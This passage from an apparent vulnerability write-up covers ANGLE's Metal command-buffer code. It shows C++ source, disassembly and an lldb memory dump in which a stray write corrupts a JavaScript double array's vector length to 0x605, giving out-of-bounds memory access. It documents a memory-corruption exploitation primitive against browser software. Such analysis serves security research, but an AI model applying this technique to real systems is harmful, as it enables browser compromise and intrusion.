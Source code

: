 ```c++
void CommandBuffer::setWriteDependency(const ResourceRef &resource)
{
    // ...
    resource->setUsedByCommandBufferWithQueueSerial(mQueueSerial, true);
}
```

```c++
void Resource::setUsedByCommandBufferWithQueueSerial(uint64_t serial, bool writing)
{
    if (writing)
    {
        mUsageRef->cpuReadMemNeedSync = true;
        mUsageRef->cpuReadMemDirty    = true;
    }

    mUsageRef->cmdBufferQueueSerial = std::max(mUsageRef->cmdBufferQueueSerial, serial);
}
```

If we follow the chain, we see that `CommandBuffer::setWriteDependency` contains the following code.
Note that `setUsedByCommandBufferWithQueueSerial` is inlined.

```assembly
libANGLE-shared.dylib`rx::mtl::CommandBuffer::setWriteDependency:
    0x7ffa28dc4530 <+0>:   push   rbp
    0x7ffa28dc4531 <+1>:   mov    rbp, rsp
    0x7ffa28dc4534 <+4>:   push   r15
    0x7ffa28dc4536 <+6>:   push   r14
    0x7ffa28dc4538 <+8>:   push   rbx
    0x7ffa28dc4539 <+9>:   push   rax
    // ...
    0x7ffa28dc4561 <+49>:  mov    rax, qword ptr [r15]
    0x7ffa28dc4564 <+52>:  mov    rcx, qword ptr [rbx + 0x18]
    0x7ffa28dc4568 <+56>:  mov    rax, qword ptr [rax + 0x8]
    0x7ffa28dc456c <+60>:  mov    word ptr [rax + 0x8], 0x101 // [1]
    0x7ffa28dc4572 <+66>:  mov    rdx, qword ptr [rax]
    0x7ffa28dc4575 <+69>:  cmp    rdx, rcx
    0x7ffa28dc4578 <+72>:  cmovb  rdx, rcx
    0x7ffa28dc457c <+76>:  mov    qword ptr [rax], rdx // [2] ; rdx is 0x6
    // ...
```

If the bug is successfully triggered, `rax` register has a valid butterfly.

In `[1]`, `0x101` is written in the index 0 of the n-th array of `g_double_array`, and the vector length is set in `[2]`.

The following dump shows the memory after the above code is executed.

```plaintext
(lldb) x/32a 0x8515baca8
0x8515baca8: 0x0000000000000000
0x8515bacb0: 0x00000008515bad05 // <- The address is where the value 0x6 (rdx) is written to. We add 5 the address to write to the vector length field of the next array.
0x8515bacb8: 0x0000000000000000
0x8515bacc0: 0x0000000000000000
0x8515bacc8: 0x7ff8000000000000
0x8515bacd0: 0x0000000500000003
0x8515bacd8: 0x000000053cb63ca0
0x8515bace0: 0x0000000508514480
0x8515bace8: 0x0000000508514480
0x8515bacf0: 0x0000000000000000
0x8515bacf8: 0x0000000000000000
0x8515bad00: 0x000006050000000c // <- Vector length becomes 0x605, we can now OOB access below memory with this length.
```